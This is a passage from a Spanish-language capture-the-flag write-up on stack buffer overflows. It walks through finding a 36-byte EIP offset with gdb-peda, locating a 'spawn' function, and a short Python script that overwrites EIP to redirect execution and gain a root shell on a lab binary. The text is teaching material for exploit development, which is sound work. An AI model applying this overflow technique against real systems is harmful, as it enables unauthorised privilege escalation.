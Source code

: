 - Ahora lo que tenemos que hacer es buscar el `offset` que es un valor para determinar la posicion en la memoria que se va a sobrescribir para esto le vamos a pasar el `EIP` que es la dirección de memoria de la próxima instrucción a ejecutar, el objetivo es manipular el valor del registro `EIP` para que apunte a una dirección de memoria controlada por nosotros.

```bash
gdb-peda$ pattern_offset 0x61414145
1631666501 found at offset: 36
```

- Ahora vimos que en el código hay una función `spawn` y necesitamos saber su dirección a si que vamos a buscarla.

```bash
gdb-peda$ info function ^spawn$
All functions matching regular expression "^spawn$":

Non-debugging symbols:
0x565561e9  spawn
```

- Y bueno ya tenemos la dirección pero como estamos en `little endian` tenemos que darle la vuelta ala dirección.

```bash
0x565561e9      |    \x56\x55\x61\xe9    | \xe9\x61\x55\x56
```

- Ahora como ya tenemos todo listo podemos seguir con el script para que todo esto funcione.

```bash
➜  levels cat scriptTwo.py
#!/usr/bin/python2

offset = 36 # pattern_offset 0x61414145

null = b"A" * offset # vamos a pasarle eso para asta llegar al EIP

spawn = b"\xe9\x61\x55\x56" # Le pasamos la direccion para que el EIP apunte a ala funcion spawn

print(null + spawn)
```

- Y funciona.

```bash
➜  levels ./levelTwo $(python2 scriptTwo.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�UV
# whoami
root
#
```

## Level 3

> Stack Based. 
